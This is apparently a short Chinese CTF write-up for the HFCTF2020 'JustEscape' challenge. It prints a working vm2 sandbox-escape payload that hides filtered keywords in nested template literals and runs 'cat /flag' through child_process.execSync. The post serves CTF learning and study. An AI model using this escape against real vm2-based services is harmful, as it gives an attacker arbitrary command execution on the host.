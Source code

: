 ```yaml
---
title: '[HFCTF2020]JustEscape'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-08-26 22:23:46
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/jtyksekjsd.jpg
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/grweaga.jpg)

访问run.php：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/53iui64.jpg)

看似很简单的代码，根据首页的提示，猜测这不只是php。
输入Error().stack
根据回显得到，这是一个JS的vm2，而且经过测试许多关键字都被过滤
搜索可得 vm2 最新沙盒逃逸 poc

payload：
(function (){TypeError[`${`${`prototyp`}e`}`][`${`${`get_proces`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return this.proces`}s`}`)();try{Object.preventExtensions(Buffer.from(``)).a = 1;}catch(e){return e[`${`${`get_proces`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();}})()

这个地方暂时就不去深究了。
